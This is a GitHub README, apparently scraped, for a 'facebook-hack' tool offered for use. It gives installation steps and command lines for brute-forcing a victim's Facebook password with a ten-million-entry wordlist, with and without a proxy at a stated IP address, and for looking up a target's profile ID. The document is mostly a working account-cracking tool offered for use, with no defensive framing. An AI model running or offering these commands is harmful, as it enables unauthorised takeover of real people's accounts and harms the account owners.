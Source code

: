 # facebook-hack
facebook hack free normal password Windows Kali Linux Android~Termux macOs any Os has python(2.x, 3.x) with required modules
Language is used to Make this tool
Python
The Tool is for :
Windows
Kali Linux
Android~Termux
macOs
any Os has python(2.x, 3.x) with required modules
Installation
apt update && apt upgrade -y
apt install git -y
git clone https://github.com/hackerxphantom/Facebook_hack.git
cd Facebook_hack
bash setup
python facebook_hack.py
usage :-
U can Use Victim email Or Facebook Profile Id:

Brute Force On Facebook Account Without proxy:

Command: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
Brute Force On Facebook Account With Proxy:

Command: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
Get Target Facebook Profile ID:
Command: python facebook_hack.py -g https://www.facebook.com/zuck
